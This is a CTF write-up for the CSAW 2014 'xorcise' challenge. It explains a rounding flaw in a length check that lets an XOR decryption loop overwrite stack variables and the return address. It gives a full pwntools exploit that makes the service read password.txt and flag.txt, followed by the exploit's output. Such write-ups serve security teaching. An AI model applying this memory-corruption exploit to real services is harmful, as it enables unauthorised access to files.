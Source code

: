 ```yaml
---
layout: post
title:  "CSAW 2014 Exploit 500 writeup : xorcise"
date:   2014-09-21 00:00:00 -0400
categories: ctf,exploits
---
```


The [CSAW 2014](https://ctftime.org/event/152/tasks/) Exploit500 challenge was a Linux 32-bit network service for which the executable
and the source code were provided (I saved a copy of the source code [here](https://github.com/ekse/code/blob/master/ctf/csaw2014/exploit500/xorcise.c)). 
The service accepts packets defined by the structure cipher_data and first applies a decryption loop to the received data.

```c
struct cipher_data
{
    uint8_t length;
    uint8_t key[8];
    uint8_t bytes[128];
};
typedef struct cipher_data cipher_data;
```

The service provides multiple commands, however the 2 interesting ones `read_file` and `system` require your packet to be authenticated. 
The authentication verification is done in `is_authenticated()` and computes an authentication checksum based on a password read from 
the local file 'password.txt'. This check does not seem to be vulnerable.

My teammate EiNSTeiN_ discovered that there is a flaw in the `decipher()` method that does the decryption of the data. The function 
allocates a buffer `buf` which will contain the decrypted data, the allocated size is `MAX_BLOCKS * BLOCK_SIZE` which is 128 bytes. The 
copy of the packet bytes to the buffer is done safely with memcpy.

```c
#define BLOCK_SIZE 8
#define MAX_BLOCKS 16
[...]
memcpy(buf, data->bytes, sizeof(buf));
```

There is also a check to ensure that the decryption loop does not process more than the size of `buf[]`.

```c
if ((data->length / BLOCK_SIZE) > MAX_BLOCKS)
{
    data->length = BLOCK_SIZE * MAX_BLOCKS;
}
```

But this check is flawed because of rounding; we can pass a value of 135 which will pass the check (135 / 8 equals 16 which is not bigger than `MAX_BLOCKS`). 
The decryption loop is applied by blocks of 8 bytes, so we are able to apply it to 8 bytes outside the bounds of `buf[]`.

```c
for (loop = 0; loop < data->length; loop += 8)
{
    for (block_index = 0; block_index < 8; ++block_index)
    {
        buf[loop+block_index] ^= (xor_mask^data->key[block_index]);
    }
}
```

If we look at the stack layout of `decipher()` we see that those 8 bytes are the variables `xor_mask`, `block_index` and the first 3 bytes 
of loop.

```
-00000095 buf             db 128 dup(?)
-00000015 xor_mask        db ?
-00000014 block_index     dd ?
-00000010 loop            dd ?
```

## Exploitation Strategy

The strategy I went for is to modify the value of `loop` to make it point on the return address of `decipher()` and modify its 2 first bytes 
to make it return somewhere else. Hopefully we can find an interesting place to jump to.

Let's go through the modification of the bytes one at a time. The first one is `xor_mask`. At this point `block_index` equals 0. We know 2
of the values in the decryption (`xor_mask` = 0x8F and `buf[loop+block_index]` = 0x8F), so we can set `key[block_index]` to get the output
value we want. Let's set `xor_mask` to 0 to make the next steps easier. `0x8F ^ 0x8F ^ 0x00` equals 0x00, so this is the value we will put 
at `key[0]`.

```
variable: prev_val   block_index  new_val key_value    
xor_mask: 0x8F       0            0x00    key[0] = 0x00     
```

Next up is the first byte of `block_index`, at this point it is equal to 1. We will keep its value at 1 so the decryption loop continues 
normally. As we have modified `xor_mask` to 0x00, the computation is now `0x01 ^ 0x01 ^ 0x00` which equals 0x00, we put this value in 
`key[1]`. We will also leave the other bytes of `block_index` unchanged. Here is the updated table:

```
variable       : prev_val   block_index  new_val key_value    
xor_mask       : 0x8F       0            0x00    key[0] = 0x00        
block_index[0] : 0x01       1            0x01    key[1] = 0x00 
block_index[1] : 0x00       2            0x00    key[2] = 0x00
block_index[2] : 0x00       3            0x00    key[3] = 0x00
block_index[3] : 0x00       4            0x00    key[4] = 0x00
```

We can now modify the first byte of `loop`. Its current value is 0x80 (128), the value we need to make `buf[loop+block_index]` modify the 
return address at this point is 0x93, so that will give us `key[5] = 0x13`.

```
variable: prev_val   block_index  new_val key_value  
loop[0] : 0x80       5            0x93    key[5] = 0x13 
```

We are now able to modify the return address of `decipher()`, we're making good progress. So where do we want to make the program jump? 
There is a call to `read_file()` in `process_connection()`, this command reads the content of a file and sends its content back to us, 
we could use it to read the content of 'password.txt'.

```
.text:08049279                 mov     eax, [ebp+var_10]
.text:0804927C                 add     eax, 8
.text:0804927F                 sub     esp, 8
.text:08049282                 push    eax
.text:08049283                 push    offset aReadFileReques ; "Read File Request: %s\n"
.text:08049288                 call    _printf
.text:0804928D                 add     esp, 10h
.text:08049290                 mov     eax, [ebp+var_10]
.text:08049293                 add     eax, 8
.text:08049296                 sub     esp, 8
.text:08049299                 push    eax             ; filename
.text:0804929A                 push    [ebp+fd]        ; fd
.text:0804929D                 call    read_file
```

There is a little detail to keep in mind, there is a stack adjustment after the call to `decipher()`. As we are hijacking the return address
the stack will not be properly readjusted.

```
.text:0804918F                 call    decipher
.text:08049194                 add     esp, 10h
;274     packet = (request *)&decrypted;
.text:08049197                 lea     eax, [ebp+var_11D]

.text:0804919D                 mov     [ebp+var_10], eax
```

My first thought was to jump at `0x0804928D` which does the same stack adjustment and then sets the correct parameters for the call to
`read_file()`. However this approach does not work as the value of `var_10` is set only after the call to `decipher()`. Bummer.

I then noticed that the address of `filename` is passed via eax at `0x08049299` and by luck at the end of `decipher()` eax points inside `buf[]`. So the last thing I needed to do was to adjust the initial packet content so that it contained `password.txt\x00' XOR 0x8F XOR the key`. Here is the final content of the variable smashing table.

```
variable       : prev_val   block_index  new_val key_value    
xor_mask       : 0x8F       0            0x00    key[0] = 0x00
block_index[0] : 0x01       1            0x01    key[1] = 0x00 
block_index[1] : 0x00       2            0x00    key[2] = 0x00
block_index[2] : 0x00       3            0x00    key[3] = 0x00
block_index[3] : 0x00       4            0x00    key[4] = 0x00
loop[0]        : 0x80       5            0x93    key[5] = 0x13
at this point buf[loop+block_index] overwrites retaddr

retaddr[1]     : 0x94       6            0x99    key[6] = 0x0d
retaddr[2]     : 0x91       7            0x92    key[7] = 0x03
```

## Putting it all together

Below is the source code of my exploit, I used the [pwntools](https://github.com/Gallopsled/pwntools) python library by Gallopsled which
saved me a ton of time, definitely check it out.

```python
from pwn import *

#sock = remote("127.0.0.1", 24001)
sock = remote("128.238.66.227", 24001)

key = "\x00\x00\x00\x00\x00\x13\x0d\x03"

packet  = ""
packet += chr(135) # cipher_data.length = 135  
packet += key # key
packet += "A"
#packet += xor(xor("password.txt\x00", "\x00\x00\x00\x00\x13\x0d\x03\x00"), 0x8f)
packet += xor(xor("flag.txt\x00", "\x00\x00\x00\x00\x13\x0d\x03\x00"), 0x8f)

packet += "A"* (140 - len(packet))

sock.send(packet)
sock.interactive()
```

And finally the exploit in action :

```
[ekse@xubuntu] : ~/csaw/exploit500 $ python client.py 
[+] Opening connection to 127.0.0.1 on port 24001: OK
[*] Switching to interactive mode
pass123
[*] Got EOF while reading in interactive
```

So the password was 'pass123'. It was kind of depressing to have worked so much for such a weaksauce password, the CSAW CTF organizers
really are a bunch of trolls. Now we could implement the packet authentication and call the system command to list the files on the server,
 but I guessed the flag was probably in 'flag.txt' and used the exploit to read that file instead :-)

The flag was `flag{code_exec>=crypto_break}`.

Thanks to drraid for this great challenge and to the CSAW organizers for such a great CTF!